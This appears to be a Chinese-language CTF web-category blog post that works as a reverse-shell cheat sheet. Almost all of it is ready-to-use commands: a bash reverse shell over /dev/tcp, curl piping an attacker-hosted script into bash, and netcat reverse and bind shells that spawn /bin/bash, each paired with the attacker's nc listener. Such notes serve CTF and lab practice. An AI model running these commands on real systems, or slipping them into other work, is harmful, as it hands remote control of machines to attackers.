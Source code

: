 ```yaml
---
tags:
  - CTF-WEB
categories:
  - CTF-WEB
date: 2020-03-26 14:45:00
cover: /img/post/10.jpg
---
```


---
说明：端口可任意，但要保持一致而且不能被占用，以下均为攻击机登录被攻击机

# bash连接

```bash
攻击机器输入 nc -lvp 7777

被攻击机器输入bash -i >& /dev/tcp/攻击机ip/7777 0>&1  
```

然后攻击机器就相当于登陆了了被攻击机器

# curl连接

```bash
在攻击机根目录下创建shell.txt,内容为bash -i >& /dev/tcp/攻击机ip/7777 0>&1

//注意shell.txt不是在服务器根目录，而是例如/var/www/html下
被攻击机执行curl 攻击机ip/shell.txt|bash  //先curl获得shell.txt的内容然后用bash执行
```

# nc连接

说明：用nc连接成功后不会出现类似bash连接那种开头的root@kali这种，可用pwd检测是否连接成功

### 利用攻击机ip

```bash
攻击机输入 nc -lvp 7777

被攻击机输入 nc -e /bin/bash 攻击机ip 7777
```
### 利用被攻击机ip

**其他都是需要攻击机ip，这个则相反。我的理解是需要攻击机ip的相当于把shell弹给攻击机(所以攻击机ip和bash在一行代码)，而这个相当于在本地端口开个shell,攻击机访问端口来拿shell**

```bash
攻击机输入 nc 被攻击机ip 7777

被攻击机输入  nc -lvp 7777 -e /bin/bash
```

### 
